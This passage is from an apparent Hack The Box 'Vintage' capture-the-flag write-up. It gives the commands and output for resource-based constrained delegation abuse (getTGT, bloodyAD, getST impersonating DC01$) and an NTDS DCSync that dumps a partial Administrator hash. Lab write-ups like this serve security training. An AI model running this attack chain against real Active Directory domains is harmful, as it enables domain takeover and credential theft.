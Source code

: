 #### RBCD with an Computer Account

> The AllowedToAct attribute is given when the group is configured for resource based constrained delegation (RBCD)

I just have to add **FS01$** (because this computer already have an SPN) in **Delegates Admins** and impersonate **DC01$**

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"c.neri_adm":"REDACTED"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in c.neri_adm.ccache

export KRB5CCNAME=c.neri_adm.ccacheé
bloodyAD -d vintage.htb -k --host dc01.vintage.htb -k add groupMember DelegatedAdmins 'fs01$'

[+] fs01$ added to DelegatedAdmins
```
Request a TGT again

```bash
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile users.txt

[22:03:15] INFO     Saving ticket in FS01$.ccache

export KRB5CCNAME=FS01\$.ccache

getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'fs01$'
```
And **DCSYNC**

```bash
export KRB5CCNAME=DC01\$.ccache

nxc smb dc01.vintage.htb --use-kcache --ntds --user Administrator
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\DC01$ from ccache
SMB         dc01.vintage.htb 445    dc01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         dc01.vintage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:46..de
```
Ok it's cool but there is still another ways to **RBCD** 

#### Add an SPN to RBCD

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"c.neri_adm":"REDACTED"

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in c.neri_adm.ccache

export KRB5CCNAME=c.neri_adm.ccache
```
Add **SVC_SQL** to **DELEGATEDADMINS** and request a ticket
